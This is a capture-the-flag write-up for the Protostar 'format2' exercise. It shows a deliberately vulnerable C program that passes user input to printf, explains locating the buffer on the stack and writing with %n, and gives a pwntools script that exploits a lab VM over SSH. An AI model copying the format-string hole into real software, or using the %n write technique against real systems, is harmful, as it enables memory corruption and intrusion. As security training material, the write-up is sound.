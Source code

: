 # Format 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
    
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}

```

goal : overwrite target with the value 64

The format string vulnerability occurs in the vuln function, more precisely in the call of printf.
Since we control the char buffer , we can inject format specifier to leak value/address on the stack.


The code is very similar to the last challenge but there is a minor difference, actually 
target need to be precisely 64.


In the previous challenge i explain how to abuse of format string vulnerability to overwrite value on the stack.

The idea is to find the position on the stack, "buffer" that we are controlling , to do so we will use a recognizable caracters like AAAA (pattern).
If we can find 41414141 in the stack, it mean we are now pointing at the start of "buffer". 
In this case we are going to overwrite 41414141 by the address of "target" and then write at this memory location.

We are going to use the format specifier "%n" to write at a specific address, in our case we want to write 64 at &target. (address of target).



## Tips and tricks: 

%64x will padd with 64 caracters (spaces + what is found on the stack in hex) in buffer

%64x => we are going to add a padding of 64  caracters (spaces + what is found on the stack in hex) before printing the value :
ex :  
```c
#include <stdio.h>

int main(){

    printf("%64xHello");
}
Output: 
                                                        ffffd134Hello

|----------------------------------------------------------------|  after 64 bytes Hello

```

%3$x => print the 3rd argument
ex: 
printf("%3$x", 1,44,10);  // the output will be 0xa which  is 10 in decimal


Let's find the address of "target"

## Address of target : 

```bash
user@protostar:~$ objdump -t /opt/protostar/bin/format2 | grep target
080496e4 g     O .bss	00000004              target

```

080496e4 => let's convert it in little endian format  \xe4\x96\x04\x08  



# payload 

```python


from pwn import *


r = ssh(host="192.168.160.128", user="user", password="user")

target_addr ="\xe4\x96\x04\x08"

position_stck=0
#padding='A'*56  # padding of A 
# or 
padding = "%56x"  # padding of spaces
for i in range(100):
    payload = 'AAAABBCC%{}$p'.format(i)  #  pattern to find  (due to memory alignement our pattern is not just AAAA) 
    format2=r.run(["/opt/protostar/bin/format2"])
    format2.sendline(payload)
    output = format2.recvline().decode()
    if "41414141" in output: # if we found AAAA it means we are pointing at the start of buffer
        print("control stack address :" ,i , output )
        position_stck=i # save the position of it 
        format2.close()

        payload2 = '{}BBCC{}%{}$8n'.format(target_addr, padding , position_stck) 
        # we are juste replacing our pattern by the address of "target" at the start of "buffer"
        # padding : since printf will print  BBCC ,which is 4 bytes and \xe4\x96\x04\x08 the address of target (also 4 bytes)  we have currently 8 bytes
        # we need to add 64-8 = 56 caracters to print 64 caracters and since %n write the number of caracters printed by printf
        # our payload is :  \xe4\x96\x04\x08 + BBCCC + "%56x"  +  %postion$8n 
        print(payload2)
        format2=r.run(["/opt/protostar/bin/format2"])
        format2.sendline(payload2)
        print(str(format2.recv()))
        format2.close()
        break

```

We lauch the payload and ...


![overwrite_ok](success_overwrite.gif)